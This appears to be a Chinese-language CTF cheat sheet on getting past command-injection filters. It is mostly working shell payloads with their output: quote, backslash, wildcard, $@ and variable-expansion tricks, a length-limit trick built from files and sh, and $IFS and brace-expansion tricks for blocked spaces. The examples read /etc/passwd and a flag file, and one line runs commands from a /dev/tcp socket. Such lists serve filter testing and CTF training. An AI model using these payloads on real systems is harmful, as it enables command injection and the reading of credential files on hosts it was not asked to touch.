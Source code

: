 *   单引号，双引号
    

```
[root@localhost home]# ca""t 1''.txt
thisis your flag
```

*   反斜线
    

```
[root@localhost home]# c\at 1.t\xt
thisis your flag
```

*   可变扩展绕过
    

```
/???/c?t /???/p?ss??
test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

*   用通配符绕过
    

```
powershell C:\*\*2\n??e*d.*?# notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

*   shell 特殊变量（$1，$2 等和 $@）
    

```
[root@localhost home]# ca$@t 1$1.txt
thisis your flag
```

#### 长度限制绕过

通过构造文件来绕过

linux 下可以用

`1 > a`创建文件名为 a 的空文件

`ls -t>test`则会将目录按时间排序后写进 test 文件中

`sh`命令可以从一个文件中读取命令来执行

#### 空格绕过

linux 平台：

```
root@localhost:~/Www$ cat</etc/passwd
root:x:0:0:root:/root:/bin/bash
root@localhost▸~▸ $ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
root@localhost▸~▸ $ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
root@localhost▸~▸ $ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
root@localhost▸~▸ $ X=$'uname\x20-a'&&$X
Linux crashlab 4.4.X-XX-generic#72-Ubuntu
root@localhost▸~▸ $ sh</dev/tcp/127.0.0.1/4242
```
